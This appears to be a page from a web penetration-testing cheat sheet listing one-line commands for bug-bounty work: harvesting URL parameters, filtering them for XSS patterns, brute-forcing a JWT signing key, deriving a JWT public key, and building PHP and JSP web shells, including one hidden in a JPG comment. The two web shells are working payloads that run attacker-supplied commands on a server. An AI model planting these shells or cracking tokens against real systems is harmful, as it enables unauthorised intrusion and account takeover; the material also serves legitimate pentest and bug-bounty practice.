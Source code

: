 ## Extracting page parameters

```text
python3 paramspider.py --domain bugcrowd.com --exclude woff,css,js,png,svg,php,jpg --output bugcrowd.txt
```

## Examining the structure of parameters based on patterns of vulnerabilities

```text
gf xss domain.txt
gf potential domain.txt
```

## Guess the jwt symmetric encryption key

```text
jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6

Or


```


## public key guess jwt asymmetric encryption

```text
docker run --rm -it portswigger/sig2n <token1> <token2>
```

## Create web shell jpg

```text
giftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' meme.jpg
```

## Create web shell jsp

```text
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```



{% include links.html %}
